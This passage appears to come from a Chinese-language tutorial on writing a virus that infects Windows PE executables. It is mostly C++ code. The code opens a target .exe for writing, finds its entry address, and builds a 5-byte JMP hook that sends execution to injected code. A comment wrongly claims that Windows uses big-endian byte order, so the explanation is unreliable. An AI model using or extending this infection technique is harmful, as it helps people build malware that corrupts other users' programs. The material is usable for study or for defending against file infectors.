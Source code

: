```c++
ImageBase=PEGetImageBase (Buf,READ_BUFFER_SIZE);
BaseOfCode=PEGetBaseOfCode(Buf,READ_BUFFER_SIZE);
EnterAddress=ImageBase+BaseOfCode;
}


bool Init(void)
{
File=CreateFile("TestEXE.exe",GENERIC_READ | GENERIC_WRITE,NULL,NULL,OPEN_ALWAYS,NULL,NULL);

if (File==NULL)
{
printf("File Open ERR!");
return false;
}

SetFilePointBeginOffset(0);
GetEnterAddress();
SetFilePointBeginOffset(0); // <- 在调用过ReadFile() 后,文件指针会自发向上相加
    
return true;
}

void End(void)
{
CloseHandle(File);
}
```



## 感染原理

 

原理:通过注入JMPHook代码到程序起始位置使系统执行注入的HookFun 代码实现程序感染代码的执行



## JMPHook 代码和HookFun 代码的编写 


  JMPHook很简单,只需要用JMP xxxx  就可以,对应的机器码为 E9 00 00 00 00 [注意,JMP 在Windows 中占5位]

  char HookCode[5]={0xE9,0x00,0x00,0x00,0x00}; // <- 0xE9,后面的数据全部为0,因为目标注入地址还没有填写

  下面是填写HookCode 的函数:



```c++
void WriteHookCode(long AddressOffset)
{  //  一定要记得注意的是:"Windows 系统采用大端数据排列"
HookCode[1]=*(((char *)(&AddressOffset))+0);
HookCode[2]=*(((char *)(&AddressOffset))+1);
HookCode[3]=*(((char *)(&AddressOffset))+2);
HookCode[4]=*(((char *)(&AddressOffset))+3);
}//  注意long 占4字节
```
